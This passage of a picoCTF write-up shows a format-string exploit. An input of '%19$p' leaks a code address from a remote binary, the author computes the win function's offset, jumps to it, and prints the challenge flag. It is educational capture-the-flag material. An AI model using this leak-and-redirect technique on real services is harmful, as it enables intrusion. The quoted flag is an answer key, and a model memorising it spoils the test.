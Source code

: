 ```
value (66): 0x7ffc35b61430
value (67): 0x7ffe632b3442
value (68): 0x7fff9ff8546b
value (69): 0x7ffcdc26247f
value (70): 0x7ffcba872495
value (71): 0x7ffe20f1d4b1
value (72): 0x7fffddac14c9
value (73): 0x7ffc189fe4d5
value (74): 0x7ffd3b5d54ef
value (83): 0x7ffc46b7acb6
value (84): 0x7fffea24ecd0
value (85): 0x7ffd34a3cce1
value (87): 0x7ffea491cd51
value (89): 0x7fff04cc4d7f
value (93): 0x7fff40d2ddd3
value (95): 0x7fff049fade6
value (96): 0x7ffe5349edf1
value (100): 0x7fff0ce24f60
```

value 19 seems to be a valid memory address and when I replace the last 2 numbers of the address with 0's it loops to the main function!

I tried it on the server with the netcat and ...

```
Enter your name:%19$p
0x5d1d8e79d441
 enter the address to jump to, ex => 0x12345: 0x5d1d8e79d400
Enter your name:
 enter the address to jump to, ex => 0x12345:
```

There we go! all I need to do now is subtract (41+96) = d7 from the 19th leaked address and it should print me the flag!

Sure enough! it does!:

```
Enter your name:%19$p
0x60076ac59441
 enter the address to jump to, ex => 0x12345: 0x60076ac5936a
You won!
picoCTF{p13_5h0u1dn'7_134k_71356635}
```

#### Conclusion

In conclusion, I was able to leak the stack adresses of the program because of the `printf` being unsafe with out the `%s` inside it to specify a string in C. Once I found it I was able to deduct the address of one of the functions by using `objdump` to deassemble the C program. Then I put it all together on the server and it returned the flag.
